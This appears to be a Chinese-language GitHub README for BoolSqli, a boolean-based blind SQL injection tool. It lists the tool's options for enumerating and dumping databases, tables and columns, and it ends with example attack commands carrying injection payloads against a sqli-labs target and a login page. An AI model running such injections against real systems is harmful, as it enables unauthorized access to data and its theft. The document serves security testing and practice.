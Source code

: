 # BoolSqli
布尔注入工具

目前:
支持get和post方法
支持中文数据gbk&utf-8

注：
>get  ：要求注入点参数是返回错误页面，or Ture 后为正确页面，且注入点放到最后一个参数
>post ：要求注入点参数是返回错误页面，or Ture 后为正确页面，且注入点用*号标识
具体请看示例

# 用法
同sqlmap

```
usage: BoolSqli.py [options]

        作者：End1ng blog:end1ng.wordpress.com
        --------------------------------
        Boolean-based blind SQL injection

optional arguments:
  -h, --help            help of the BoolSqli.py program
  --version             show program's version number and exit

Necessary parameter:
  -u url, --url url     *目标url 多个用空格分隔
  -p [data [data ...]], --post [data [data ...]]
                        post数据,注入点用*标识 eg:*user=username pass=password
  -D url                数据库名
  --dbs                 读取数据库
  -T url                表名
  --tables              读取表
  -C [url [url ...]]    列名
  --columns             读取列
  --dump                读取字段

other arguments:
  --level level         程序运行级别:CRITICAL,ERROR,WARNING,INFO,DEBUG,NOTSET
  --delay num           访问延迟
  --cookie str          cookie
```

# 例子：

GET
注入点 id
```
python BoolSqli.py -u"http://xxx/sqli-labs-master/Less-7/?xxx=1&id=-1'))" --dbs
```

POST
注入点 userName
```
python BoolSqli.py -u "http://xxx/login.php" -p "pwd=123" "*userName=1'" --dbs
```

